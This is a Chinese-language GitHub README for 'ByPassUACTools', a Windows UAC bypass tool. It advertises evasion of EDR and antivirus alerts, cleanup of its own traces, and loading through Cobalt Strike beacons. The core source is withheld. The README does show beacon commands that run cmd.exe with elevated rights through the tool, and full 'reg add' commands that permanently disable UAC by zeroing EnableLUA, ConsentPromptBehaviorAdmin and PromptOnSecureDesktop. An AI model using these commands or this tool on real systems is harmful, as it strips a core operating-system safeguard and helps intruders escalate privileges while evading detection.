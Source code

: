 # ByPassUACTools

![Author](https://img.shields.io/badge/Author-Trim-blueviolet) ![Author](https://img.shields.io/badge/Author-xiaoxiong-blueviolet) ![Bin](https://img.shields.io/badge/ByPassUACTools-Bin-ff69b4)  ![build](https://img.shields.io/badge/build-passing-green.svg)  ![language](https://img.shields.io/badge/language-C-blue.svg)

### 简介

- **Windows 平台下的UAC(User Account Contro) 限制绕过工具。**

- **Windows 7 及以上版本系统（含Server版）。**

- **UAC防护级别小于或等于默认等级、当前进程的用户权限为管理员组（Administrators）用户权限。**

---

### 免责说明

- **避免恶意使用此工具，故不提供完整的工程项目源码和二进制文件，主要分享和提供思路供大家参考。**

---

### 设计思路

UAC（User Account Control，用户帐户控制）是 Windows Vista 版本后开始引入的一种系统安全机制，它在操作系统中定义了多种用户访问的安全级别，可以防止在非管理员权限下的存在恶意应用程序或恶意进程对系统范围（管理员级别）的配置进行访问或资源调度。

1. **自动检测当前系统运行环境:**
     - 自动检测当前系统是否开启UAC与当前UAC等级是否满足Bypass条件；
     - 自动检测当前进程所属用户的权限是否为管理员权限；
2. **主要核心功能**:
     - 支持以ByPass UAC的方式执行一个指定的二进制程序；
     - 所有内置的ByPassUAC模块在执行时不触发EDR-Agent和杀毒软件的告警；
     - 具备痕迹清除，在执行特定的ByPassUAC模块后，在退出前会清理落地的文件和恢复已修改的配置；

---

### 功能演示

#### 1、以ByPass UAC的方式执行一个指定的二进制程序

> 在具有安全软件和默认开启UAC的系统环境下，启动`regedit.exe`为例
- 直接运行会触发UAC桌面弹框提示
<img src="imgs/image-20220328164120370.png" alt="image-20220328164120370" style="zoom:33%;" />

- 通过`ByPassUACTools.exe`执行`regedit.exe`，则可以绕过系统UAC，同时该行为可以躲避杀软的系统防御检测。

<img src="imgs/image-20220328164148608.png" alt="image-20220328164148608" style="zoom: 50%;" />

#### 2、支持CobaltStrike Reflective DLL内存加载，绕过UAC运行指定的可执行文件（支持参数）

> 调用`C:\Windows\System32\cmd.exe`，附加参数执行指定的命令为例

```
beacon> bypassuactools "C:\Windows\System32\cmd.exe --parmas /c echo test > C:\test.txt"
```

#### 演示效果如下：

- 是否开启UAC

```
beacon> shell reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "EnableLUA"
```

- 查询UAC等级

```
beacon> shell reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v ConsentPromptBehaviorAdmin
```

- 执行需要管理员权限的特定命令进行测试

```
beacon> shell C:\Windows\System32\cmd.exe /c echo test > C:\test.txt

beacon> shell dir C:\test.txt
```

- 通过bypassuactools执行特定命令

```
beacon> bypassuactools "C:\Windows\System32\cmd.exe --parmas /c echo test > C:\test.txt"
```

- 确认执行成果

```
beacon> shell type C:\test.txt
```

<img src="imgs/image-20220328143949418.png" alt="image-20220328143949418" style="zoom:25%;" />



### 其他：

#### 1.增加了永久关闭UAC的方法 ：

##### 1.1 演示效果如下：

<img src="imgs/image-20220328212625548.png" alt="image-20220328212625548" style="zoom: 40%;" />

##### 1.2 设计原理

> 注解：系统UAC的配置均在该注册表路径下：
>
> https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gpsb/12867da0-2e4e-4a4f-9dc4-84a7f354c8d9

```
HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows/CurrentVersion/Policies/System
```
##### 关键的注册表键说明：

- ConsentPromptBehaviorAdmin (UAC强度级别)

```vbscript
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "ConsentPromptBehaviorAdmin"
```
- EnableLUA (启动UAC策略)

```vbscript
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "EnableLUA"
```

- PromptOnSecureDesktop (禁用UAC桌面弹框提示)

```vbscript
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "PromptOnSecureDesktop"
```

##### 具体操作：

>  无需重启即可生效

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "ConsentPromptBehaviorAdmin" /t reg_dword /d 0 /F
```

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "EnableLUA" /t reg_dword /d 0 /F
```

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "PromptOnSecureDesktop" /t reg_dword /d 0 /F
```


